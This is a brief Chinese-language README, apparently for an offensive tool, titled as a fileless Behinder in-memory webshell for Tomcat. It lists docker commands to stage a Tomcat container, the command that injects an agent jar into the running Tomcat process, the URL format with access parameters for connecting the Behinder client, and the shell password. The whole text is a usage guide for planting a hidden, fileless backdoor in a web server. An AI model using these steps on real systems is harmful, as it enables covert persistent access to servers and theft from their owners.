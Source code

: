 # Tomcat 无文件冰蝎内存马
## 使用以下命令创建tomcat容器，并将inject.jar,agent.jar复制到容器中。
    docker run -d -ti --net host --name tomcat  tomcat:8.0.18-jre8
    docker cp inject.jar tomcat:/usr/local/tomcat
    docker cp agent.jar  tomcat:/usr/local/tomcat
    
## 使用以下命令将其注入到tomcat进程中。
    java -jar inject.jar 123

## 通过behinder.jar连接内存冰蝎马，url格式：
    http://ip:port/1.jsp?pass_the_world=123&model=chopper
    
## 密码:
    rebeyond
